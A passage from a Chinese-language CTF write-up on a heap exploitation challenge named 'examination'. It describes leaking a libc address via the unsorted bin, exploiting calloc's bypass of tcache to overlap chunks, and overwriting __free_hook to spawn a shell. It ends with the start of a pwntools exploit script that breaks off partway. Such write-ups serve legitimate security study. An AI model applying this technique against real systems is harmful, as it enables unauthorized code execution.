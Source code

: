 此时，我们使用stu5的指针可以获取到stu6 comment chunk的libc地址，因为此时这个chunk大小为0x500，在unsorted bin中。
之后将stu6申请回来，由于calloc不会使用tcache，因此在comment chunks上方被释放到tcache中原stu6的pointer chunk和header chunk均不会被分配出来，而是会对stu6的comment chunk进行切割，从而也就能够使我们能通过stu5的指针对stu6的信息进行随意改写。我们先对stu6写评语：‘/bin/sh’，这个地址我们可以得到，就在stu6的header chunk之上，我们首先将计算得到的__free_hook地址写到stu6的header chunk中存放comment chunk指针的地方，这样可以在对stu6写评语时直接修改__free_hook的值。然后再对stu5写评语将stu6的comment chunk指针改回到原先写有’/bin/sh’的地方，再执行free函数即可getshell。

![](img/bce9adc19afcc5e89d0161b68e920977.png)

payload:

```
from pwn import *
context(arch='amd64', log_level='debug')

io = process('./examination')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')

students = [0, 0, 0, 0, 0, 0, 0]
reviews = [None, None, None, None, None, None, None]
chunk_addr = [0, 0, 0, 0, 0, 0, 0]
scores = [0, 0, 0, 0, 0, 0, 0]
current_role = 0
current_sid = 0
student_num = 0

def add_student(q):
	global student_num
	assert(current_role == 0)
	io.sendlineafter(b'choice>> ', b'1')
	io.sendlineafter(b'enter the number of questions: ', str(q).encode())
	students[student_num] = 1
	chunk_addr[student_num] = 'unknown'
	student_num += 1

def give_score():
	assert(current_role == 0)
	io.sendlineafter(b'choice>> ', b'2')
	io.recvuntil(b'marking testing papers.....\n')
```